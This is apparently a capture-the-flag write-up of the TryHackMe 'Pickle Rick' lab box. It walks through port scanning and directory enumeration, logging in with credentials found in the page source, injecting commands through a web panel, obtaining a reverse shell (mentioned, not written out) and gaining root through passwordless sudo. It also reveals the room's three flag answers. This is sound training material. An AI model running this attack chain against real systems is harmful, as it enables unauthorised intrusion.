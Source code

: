 
# Pickle Rick - TryHackMe 

```bash
❯ victim -i '10.10.84.218'
Saved! 
``` 

## Nmap Scans

```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-05 15:35 +0530
Initiating Parallel DNS resolution of 1 host. at 15:35
Completed Parallel DNS resolution of 1 host. at 15:35, 0.00s elapsed
Initiating SYN Stealth Scan at 15:35
Scanning 10.10.84.218 (10.10.84.218) [65535 ports]
Discovered open port 80/tcp on 10.10.84.218
Discovered open port 22/tcp on 10.10.84.218
Completed SYN Stealth Scan at 15:35, 8.97s elapsed (65535 total ports)
Nmap scan report for 10.10.84.218 (10.10.84.218)

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63 
80/tcp open  http    syn-ack ttl 63 
``` 

* Open ports: 22 ssh , 80 http 

## Web Enumeration

![webpage](https://i.postimg.cc/nLGcQFR1/webpage.png)

* Dirsearch results

```bash
❯ dirsearch -u http://$VMIP/ -w /opt/wordlists/big.txt -e .php 200
  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php | HTTP method: GET | Threads: 30 | Wordlist size: 20477

Output File: /home/trevohack/.dirsearch/reports/10.10.84.218/-_23-10-05_16-01-07.txt

Error Log: /home/trevohack/.dirsearch/logs/errors-23-10-05_16-01-07.log

Target: http://10.10.84.218/

[16:01:08] Starting: 
[16:01:13] 200 -  882B  - /login.php
[16:01:30] 301 -  313B  - /assets  ->  http://10.10.84.218/assets/
[16:03:33] 200 -   17B  - /robots.txt
[16:03:41] 403 -  300B  - /server-status
``` 

* Found a login panel `/login.php` 

* `robots.txt` reveals some text `Wubbalubbadubdub` 

* The `html` source of the main page reveals a username 

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

-->
``` 

* Login to the site using the creds `R1ckRul3s:Wubbalubbadubdub`

![logon](https://i.postimg.cc/g08LtbMw/login.png)

* You will be presented a command panel where you could inject commands to the server. 

![command](https://i.postimg.cc/mhf0wMh1/command-panel.png)

## Getting a shell 


* Run a bash rev shell on the server to obtain a shell as `www-data`

![shell-got](https://i.postimg.cc/26BY7CTJ/shell.png)

### Ingredients

```bash
$ cat /var/www/html/Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair 
``` 

* Exploring the files you may find the second ingredient easily

```bash
cat '/home/rick/second ingredients'
1 jerry tear
``` 

## Privilege Escalation

* Running `sudo -l -l` shows that `www-data` can run anything without password 

```bash
www-data@ip-10-10-84-218:/home/rick$ sudo -l -l 
sudo -l -l 
Matching Defaults entries for www-data on
    ip-10-10-84-218.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-84-218.eu-west-1.compute.internal:

Sudoers entry:
    RunAsUsers: ALL
    Options: !authenticate
    Commands:
	ALL
``` 

```bash
www-data@ip-10-10-84-218:/home/rick$ sudo su - root
sudo su - root
mesg: ttyname failed: Inappropriate ioctl for device
id 
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
3rd.txt
snap
cat 3rd.txt
3rd ingredients: fleeb juice 
``` 

## CTF Done 
